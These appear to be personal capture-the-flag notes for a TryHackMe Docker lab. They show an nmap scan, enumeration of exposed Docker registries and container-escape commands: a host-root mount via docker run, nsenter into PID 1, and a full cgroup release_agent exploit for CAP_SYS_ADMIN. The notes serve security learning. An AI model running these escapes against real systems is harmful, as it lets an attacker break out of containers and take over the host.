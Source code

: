 ## nmap

```sql
Starting Nmap 7.60 ( https://nmap.org ) at 2021-06-15 06:59 BST
Nmap scan report for docker-rodeo.thm (10.10.125.0)
Host is up (0.00095s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Docker Registry (API: 2.0)
7000/tcp open  http    Docker Registry (API: 2.0)
MAC Address: 02:22:9F:2A:94:2B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.03 seconds
```

## Enumeration

port 5000

![[Pasted image 20210615113452.png]]

![[Pasted image 20210615113643.png]]

--------

port 7000
![[Pasted image 20210615114035.png]]

![[Pasted image 20210615114238.png]]


## dive
https://github.com/wagoodman/dive

![[Pasted image 20210615115050.png]]

![[Pasted image 20210615115122.png]]

challenge

![[Pasted image 20210615115643.png]]

![[Pasted image 20210615115829.png]]



## escape

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

![[Pasted image 20210615123048.png]]

----------

Shared Namespaces 

`nsenter --target 1 --mount sh`

![[Pasted image 20210615124328.png]]

![[Pasted image 20210615124403.png]]


-----------

`capsh --print`

exploit for sys_admin



```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

 echo 1 > /tmp/cgrp/x/notify\_on\_release

host\_path=\`sed -n 's/.\*\\perdir=\\(\[^,\]\*\\).\*/\\1/p' /etc/mtab\`

echo "$host\_path/exploit" > /tmp/cgrp/release\_agent

echo '#!/bin/sh' > /exploit

echo "cat /home/cmnatic/flag.txt > $host\_path/flag.txt" >> /exploit

chmod a+x /exploit

sh -c "echo \\$\\$ > /tmp/cgrp/x/cgroup.procs"
```

![[Pasted image 20210615125740.png]]

